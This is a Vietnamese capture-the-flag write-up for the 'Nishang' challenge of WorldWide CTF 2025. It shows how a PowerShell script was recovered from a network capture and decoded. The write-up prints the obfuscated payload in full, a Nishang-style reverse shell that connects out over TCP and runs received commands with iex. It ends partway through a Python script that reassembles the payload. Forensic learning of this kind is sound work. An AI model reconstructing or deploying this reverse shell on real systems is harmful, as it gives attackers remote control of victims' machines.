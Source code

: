 ```yaml
---
title: "[Write-up] WorldWide CTF 2025"
published: 2025-07-29
tags: [CTF, WWF]
category: Write-up
description: Thật vui khi ghi được điểm trong cuộc thii
draft: false
image: /assets/data/wwf-banner.png
---
```


# Beginner

## Nishang
>Analyze the provided network capture to uncover what was downloaded to the victim’s machine.

Chúng ta được cung cấp 1 file ```.pcap``` theo dõi luồng ta thấy có 1 file ```udujreghjs.ps1``` được tải xuống, , vì vậy hãy xuất gói này. ```udujreghjs.ps1``` chứa một chuỗi base64

Giãi mã base64 và bỏ hết các byte null ta được

```
((("{47}{90}{16}{94}{30}{84}{52}{111}{58}{56}{33}{106}{101}{23}{11}{73}{92}{14}{86}{49}{115}{113}{80}{70}{22}{98}{40}{10}{6}{67}{5}{69}{25}{44}{71}{45}{61}{57}{97}{99}{104}{110}{117}{109}{105}{91}{53}{51}{34}{100}{26}{21}{13}{116}{39}{24}{103}{78}{37}{72}{2}{7}{85}{8}{82}{55}{68}{75}{89}{12}{64}{43}{4}{3}{35}{77}{38}{32}{63}{93}{28}{17}{96}{79}{66}{36}{29}{87}{107}{108}{83}{48}{54}{1}{0}{112}{9}{102}{15}{31}{18}{81}{50}{88}{20}{76}{59}{65}{74}{60}{62}{41}{46}{114}{95}{27}{19}{42}"-f'.','t','n',')','ing ','};while((n','4','z0sendback ',' (i',']::ASCII)','L6','0n}1','2>&1 L6','ding',' nz0clie','etBytes(nz0sendb',' = Ne','endback',');n','lose(','rite','ASCIIEnco','= 0.','1','es,','0i = nz0str','.','nt.C','s','pwd)','Object System.','ack2','b','m3_','peName System.Tex',';nz0','(',')','nd','GetString(nz0byt','5','lush()',')
',' Out-Str','eam.Read','nz0b','};nz0','nz','yte = ','.GetStream();[byt','0s','y','So','ect -T','([tex',' nz','wwf{s0','z0b','ts.TCPClient(19R','byte,0','ength);nz0str','ytes, 0, n','eam.F','ac','4',',nz0sendbyte.','S 19R + ','%{0','0d','z','tes ','(',';','9R,9001);n','L','a','(nz0send','se','0i',' 19RP','nz0by','z','ex','9R;nz0sendb','Net.','=','nt','.Path ','tream.W','ta ','0client','bj','z0stream =','k2  = nz0','w-','ie',' +','y','.6553','tes.Length)) -ne 0){;nz0','t','l_0bfusc47','.G','0, nz','dat','O','p0w3r5h3l','+ 19R','> 1','New-','a = ','cke','encoding','[]]','cl','e',').','('))-rePLace  'L64',[ChaR]124-CrepLaCe([ChaR]49+[ChaR]57+[ChaR]82),[ChaR]39 -CrepLaCe  'nz0',[ChaR]36)|& ((gv '*mdR*').nAmE[3,11,2]-jOiN'')
```

Nó đã bị làm rối, về cơ bản chỉ là mảng, viết 1 mã python để giải 

```python
indexes = [47, 90, 16, 94, 30, 84, 52, 111, 58, 56, 33, 106, 101, 23, 11, 73, 92, 14, 86, 49, 115, 113, 80, 70, 22, 98, 40, 10, 6, 67, 5, 69, 25, 44, 71, 45, 61, 57, 97, 99, 104, 110, 117, 109, 105, 91, 53, 51, 34, 100, 26, 21, 13, 116, 39, 24, 103, 78, 37, 72, 2, 7, 85, 8, 82, 55, 68, 75, 89, 12, 64, 43, 4, 3, 35, 77, 38, 32, 63, 93, 28, 17, 96, 79, 66, 36, 29, 87, 107, 108, 83, 48, 54, 1, 0, 112, 9, 102, 15, 31, 18, 81, 50, 88, 20, 76, 59, 65, 74, 60, 62, 41, 46, 114, 95, 27, 19, 42]

codes = ['.','t','n',')','ing ','};while((n','4','z0sendback ',' (i',']::ASCII)','L6','0n}1','2>&1 L6','ding',' nz0clie','etBytes(nz0sendb',' = Ne','endback',');n','lose(','rite','ASCIIEnco','= 0.','1','es,','0i = nz0str','.','nt.C','s','pwd)','Object System.','ack2','b','m3_','peName System.Tex',';nz0','(',')','nd','GetString(nz0byt','5','lush()',')',' Out-Str','eam.Read','nz0b','};nz0','nz','yte = ','.GetStream();[byt','0s','y','So','ect -T','([tex',' nz','wwf{s0','z0b','ts.TCPClient(19R','byte,0','ength);nz0str','ytes, 0, n','eam.F','ac','4',',nz0sendbyte.','S 19R + ','%{0','0d','z','tes ','(',';','9R,9001);n','L','a','(nz0send','se','0i',' 19RP','nz0by','z','ex','9R;nz0sendb','Net.','=','nt','.Path ','tream.W','ta ','0client','bj','z0stream =','k2  = nz0','w-','ie',' +','y','.6553','tes.Length)) -ne 0){;nz0','t','l_0bfusc47','.G','0, nz','dat','O','p0w3r5h3l','+ 19R','> 1','New-','a = ','cke','encoding','[]]','cl','e',').','(']

code_str = ''
for i in indexes:
```